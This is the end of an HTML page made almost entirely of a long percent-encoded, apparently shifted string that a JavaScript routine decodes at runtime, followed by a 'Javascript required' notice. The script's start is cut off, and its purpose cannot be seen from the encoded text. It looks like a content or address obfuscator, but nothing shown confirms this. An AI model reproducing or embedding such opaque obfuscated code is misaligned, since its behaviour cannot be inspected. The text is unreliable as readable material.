35%34%28%6b%6b%6a%79%6d%2d%67%60%60%5b%70%6d%73%5f%74%2b%27%1e%2d%5f%75%2d%67%59%6f%20%2f%1c%26%60%63%56%5a%62%21%30%1d%26%20%2f%1c%26%54%62%69%66%6b%6d%67%45%6e%6c%77%45%65%2a%34%1a%24%5e%5f%2f%65%6e%6c%77%29%69%78%5c%2f%2a%30%33%34%2f%2b%2c%28%31%34%24%2d%33%2a%2d%37%25%29%19%20%5a%60%6a%68%68%69%66%45%5f%69%3c%65%6c%24%36%19%6b%5f%6e%68%60%2a%1a%22%58%63%68%61%6f%66%63%3b%76%71%69%3b%61%6a%20%31%1c%67%54%6a%69%66%29%1e%25%5f%6e%6e%38%6b%6c%60%63%6c%77%44%60%68%5c%6c%62%45%6b%6b%60%21%30%1b%71%6c%77%60%2d%1f%24%68%6e%6a%67%6c%49%60%62%63%6f%64%5c%77%4c%58%67%5f%6f%24%37%1e%25%22%2d%1f%24%72%60%68%71%25%31%1d%21%25%29%19%20%67%75%6f%54%6b%63%58%53%67%67%72%6a%3c%6c%69%6c%68%68%76%68%4e%6c%59%22%33%1f%24%2b%2e%7a%71%75%2d%5f%6a%6d%62%5b%6b%6c%63%2f%56%69%6f%2c%61%77%6c%5c%6c%66%58%72%60%68%71%69%2c%31%2c%28%31%5a%2e%36%5f%35%68%31%59%32%2e%2c%2b%2a%63%6c%2c%5f%6e%60%6b%67%6d%71%6d%2c%67%6a%20%2f%1c%26%69%77%6c%5a%68%67%59%53%60%62%74%6f%4a%56%6c%63%6b%71%4d%68%5e%26%35%1b%23%2e%22%71%75%74%2b%5c%6e%6a%66%5d%6f%6b%66%23%5d%6d%6e%2a%62%73%6b%58%6a%62%5f%77%6c%63%75%68%2a%2c%35%30%5b%30%28%61%58%3a%36%66%65%60%2d%2a%63%26%2b%1b%23%69%61%73%69%4c%6b%63%3b%6d%60%4c%69%5f%26%3f%1e%25%63%71%72%6a%6e%33%28%2c%5d%69%6c%6d%2c%64%6a%69%65%69%64%29%58%6b%6c%22%64%69%2c%6d%6a%77%6e%6e%69%66%2a%63%66%21%2e%1b%22%62%63%6e%58%5d%6f%61%46%36%69%6f%6e%60%68%76%6e%26%35%1b%70%6b%78%63%2e%1b%22%6d%62%5c%6b%66%6d%63%26%3f%1e%71%24%6d%6a%5b%71%67%68%69%69%6a%2a%34%1a%50%76%21%6c%5c%6c%62%24%36%19%2a%42%5b%6b%5c%72%61%5c%6f%1f%6f%65%6f%6e%21%2e%1b%22%65%67%74%26%35%1b%23%6d%6c%68%61%24%29%1e%25%6e%61%5e%69%61%4c%68%6d%69%5a%62%63%25%37%19%20%47%5d%69%54%72%61%5a%6b%1e%6e%64%6f%64%24%28%19%2a%72%5b%69%62%63%76%22%33%1f%24%23%7c%21%1e%71%24%6b%5f%6f%60%26%35%1b%23%47%54%5d%67%59%6a%69%61%22%2d%1f%24%67%64%7c%21%30%1b%22%60%5b%5e%64%5d%6c%6b%62%2a%2a%1a%24%6e%66%5b%6f%64%4a%66%6f%6a%54%61%67%24%37%1e%25%3f%58%60%62%67%58%63%1e%61%66%1d%40%5b%5e%64%5d%6c%6b%62%2a%2a%1a%24%71%5f%68%62%64%73%24%36%19%2a%60%5b%58%60%5c%6d%6a%62%20%7e%28%19%7e%21%6c%5a%68%63%25%37%19%20%39%68%6e%6a%52%62%62%6e%1f%25%29%19%20%60%61%70%2a%34%1a%24%5f%6a%6d%62%55%67%62%6f%26%21%1e%25%68%65%5f%68%60%4c%62%68%6f%58%6a%63%25%31%1d%21%38%69%6e%60%57%64%60%66%1f%25%2f%1d%21%76%5c%6b%60%66%70%26%3f%1e%25%59%69%69%65%22%7c%2b%1b%77%26%63%5f%6f%66%22%34%1a%22%55%70%62%70%75%68%6c%25%2f%1d%21%61%60%70%20%31%1c%26%79%71%63%77%71%63%68%22%2d%1f%24%6f%61%54%6c%67%4e%60%6d%69%5c%66%62%24%36%19%2a%3c%5b%64%64%65%5b%6b%19%64%66%1c%55%7a%67%76%77%60%6c%25%29%19%20%77%5d%6b%6a%63%76%24%37%1e%25%71%76%66%77%70%64%67%21%7f%2f%1d%75%25%6b%58%6a%66%23%33%15%21%4a%62%6b%72%67%6f%64%6c%77%23%2d%15%21%61%66%74%21%30%1d%26%6f%62%6a%75%68%6c%67%68%71%21%2e%1d%26%6c%63%5d%6b%68%4b%67%68%6e%5f%65%60%26%35%1b%23%3b%54%61%63%60%5c%68%1a%66%64%1f%4b%65%6f%79%63%68%66%6e%72%25%29%19%20%77%5d%6b%6a%63%76%24%37%1e%25%6d%60%69%77%61%6b%68%6d%76%24%78%2a%1a%76%26%69%5a%69%64%2a%34%1a%24%40%6b%5b%64%6d%20%2f%1c%26%6e%63%73%24%37%1e%25%60%6c%5e%62%68%26%21%1e%25%68%65%5f%68%60%4c%62%68%6f%58%6a%63%25%31%1d%21%47%68%58%66%6f%23%2d%15%21%76%5a%6f%61%67%71%26%35%1b%23%64%60%5f%63%6f%22%7b%5f%29%19%20%67%65%6a%54%5c%6e%66%42%69%6d%62%6d%62%4b%68%74%66%21%30%1b%71%6c%77%60%2d%1f%24%63%6e%62%61%6e%66%4d%6a%77%6e%4a%67%5a%6e%64%37%73%76%77%6a%68%55%64%65%73%63%23%33%15%2e%2e%1b%22%61%6d%6a%66%6b%66%4c%6d%78%6d%38%6c%6a%72%69%71%6b%5e%6b%23%33%15%21%5e%73%2e%5d%69%5e%6b%66%6b%70%19%79%77%6a%66%59%76%29%61%5d%77%29%2e%75%68%76%76%2c%67%5f%74%5c%6a%5c%69%65%69%79%5a%72%29%2f%5a%72%2e%64%70%62%6a%65%62%71%2c%5c%5a%59%65%5e%67%60%1b%58%71%26%62%1a%70%59%76%28%32%6d%5e%6d%63%5d%7d%2c%35%31%1d%5a%72%2f%36%66%67%58%71%27%31%7f%30%59%76%29%5e%2e%6c%58%6e%60%65%72%5e%73%2e%63%25%78%2d%1f%24%64%58%66%3d%77%68%71%69%6f%47%74%6a%6b%48%60%63%65%4f%66%6e%6d%5b%62%64%20%31%1c%67%54%6a%69%66%29%1e%25%67%74%6a%6b%48%60%63%65%4f%66%6e%6d%5b%62%64%20%31%1c%26%37%5f%59%5a%1d%6d%67%69%64%69%64%67%58%65%68%73%5a%22%2a%1a%22%69%5e%64%61%55%7c%6e%67%24%37%1e%25%6e%75%5e%77%65%5a%52%6e%5b%64%60%21%2e%1d%26%6f%5a%63%64%4c%62%25%31%1d%21%36%2f%30%30%2b%2c%29%27%31%36%33%2e%2f%34%31%35%2f%29%34%26%21%1e%25%6b%5c%61%67%4b%58%6a%66%23%33%15%21%6e%62%73%63%1a%6e%69%68%77%72%26%21%1e%25%6b%5c%61%67%51%60%73%6f%61%26%3f%1e%25%69%64%68%65%6e%75%71%31%1c%6d%6c%70%67%1b%6e%6e%6d%71%77%20%7e%79%2d%15%75%25%6d%5c%6b%67%22%33%1f%24%62%64%54%72%77%69%60%6d%25%29%19%20%67%5d%75%54%21%30%1b%76%21%69%65%58%6d%62%6a%66%52%61%67%77%5a%6a%63%6b%62%58%67%65%58%61%69%65%24%37%1e%25%71%6b%72%66%23%2d%15%21%69%63%5c%6c%63%6b%66%58%6d%5d%75%6c%70%67%24%37%1e%25%63%58%6b%68%61%26%70%7b%2e%1b%76%21%6c%5c%6c%62%24%36%19%2a%6b%67%68%6e%5f%65%60%6a%20%2f%1c%26%69%5f%76%5a%22%34%1a%76%26%62%67%65%75%2a%34%1a%24%40%62%63%71%26%2b%1b%23%6d%6c%68%61%38%6a%6e%63%60%65%53%6c%3f%6d%6c%6e%58%6c%5c%6c%66%22%33%1f%24%50%58%78%72%5b%6d%1d%62%63%6e%58%6b%62%6a%19%6e%63%1a%6b%5c%6e%5b%6b%19%64%6f%65%69%14%21%2e%1b%22%69%61%22%33%1f%24%4b%62%68%21%2e%1b%22%6e%6d%6e%75%4b%62%6a%62%2a%34%1a%24%51%5f%77%71%58%69%1b%4c%6e%66%21%7f%7e%29%1e%71%22%6f%5e%6e%61%26%3f%1e%25%77%60%6b%6a%69%58%73%66%23%2d%15%21%66%5a%71%5f%25%37%19%74%24%6a%58%60%63%25%31%1d%21%59%70%6a%73%6c%69%26%21%1e%25%6f%6a%5d%5b%69%60%75%66%60%4f%54%6b%67%24%37%1e%25%46%61%72%68%71%6a%2a%2a%1a%24%64%6d%48%60%6a%6f%6c%6a%6a%6c%70%67%24%37%1e%64%5c%6d%6c%66%28%19%2a%67%69%3a%69%72%67%6f%6f%5e%77%61%4b%68%68%66%66%6f%67%6c%62%26%35%1b%70%6b%78%63%2e%1b%22%67%69%3e%74%6c%77%6b%6c%2a%34%1a%77%6f%73%67%78%7c%2b%1b%77%26%63%5f%6f%66%22%34%1a%22%77%66%66%73%26%21%1e%25%67%5c%72%5b%22%33%1f%70%23%5a%61%5f%69%68%64%5d%25%37%19%74%24%6a%58%60%63%25%31%1d%21%59%69%58%6c%68%65%5a%2a%2a%1a%24%70%6c%6e%22%33%1f%24%3b%77%6c%63%75%5f%75%2d%66%5e%6d%5e%68%6f%60%56%21%7f%2f%1d%21%64%69%60%6f%58%5d%6b%69%21%30%1b%76%21%6c%5c%6c%62%24%36%19%2a%60%6e%62%6d%5d%5b%6f%65%20%2f%1c%26%78%6c%6e%24%37%1e%25%3a%77%66%66%73%5d%7d%2d%66%65%69%67%6a%5e%58%6d%67%23%7c%21%1e%25%6e%5c%61%5b%77%60%69%66%23%33%15%75%25%6d%5c%6b%67%22%33%1f%24%69%58%6a%5f%70%62%6b%63%25%29%19%20%76%6e%6d%2a%34%1a%24%3a%70%63%60%76%5b%73%2f%65%60%5f%65%5a%77%67%6c%60%26%7a%2f%1c%26%60%69%69%5a%64%5d%25%37%19%74%24%6a%58%60%63%25%31%1d%21%6f%6a%6a%5e%62%5f%26%21%1e%25%76%6f%6a%25%37%19%20%3c%72%60%68%71%5e%73%2e%62%6f%6a%6a%5e%62%5f%26%70%2a%1a%24%6e%67%66%60%5b%5e%69%23%33%15%75%25%6d%5c%6b%67%22%33%1f%24%6f%60%69%63%58%5a%6f%21%2e%1d%26%72%69%68%26%3f%1e%25%3c%73%67%67%72%5d%779357106%35%33%37%30%35%39%32' + unescape('%27%29%29%3b'));

// -->

</script>

<noscript><i>Javascript required</i></noscript>

</body>

</html>

